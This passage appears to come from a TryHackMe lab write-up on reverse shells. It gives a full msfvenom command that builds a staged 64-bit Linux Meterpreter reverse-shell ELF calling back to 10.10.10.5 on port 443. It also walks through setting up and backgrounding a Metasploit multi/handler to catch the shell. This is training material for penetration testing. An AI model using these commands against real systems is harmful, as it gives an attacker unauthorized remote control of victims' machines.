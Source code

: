 `_`

3. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5, LPORT=443`

## Task 10 Metasploit multi/handler

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

* Open Metasploit with msfconsole
* Type use multi/handler, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the `options` command:

![](https://i.imgur.com/rAdZsKH.png)

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your [tun0 address](http://10.10.10.10/)). We set these options with the following commands:

* `set PAYLOAD <payload>`
* `set LHOST <listen-address>`
* `set LPORT <listen-port>`

We should now be ready to start the listener!

Let's do this by using the `exploit -j` command. This tells Metasploit to launch the module, running as a job in the background.

![](https://i.imgur.com/qIr6o2B.png)

You may notice that in the above screenshot, Metasploit is listening on a port under 1024. To do this, Metasploit must be run with sudo permissions.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell:

![](https://i.imgur.com/COmVX8K.png)

Notice that, because the multi/handler was originally backgrounded, we needed to use `sessions 1` to foreground it again. This worked as it was the only session running. Had there been other sessions active, we would have needed to use `sessions` to see all active sessions, then use `sessions <number>` to select the appropriate session to foreground. This number would also have been displayed in the line where the shell was opened (see "Command Shell session 1 opened").

1. What command can be used to start a listener in the background?

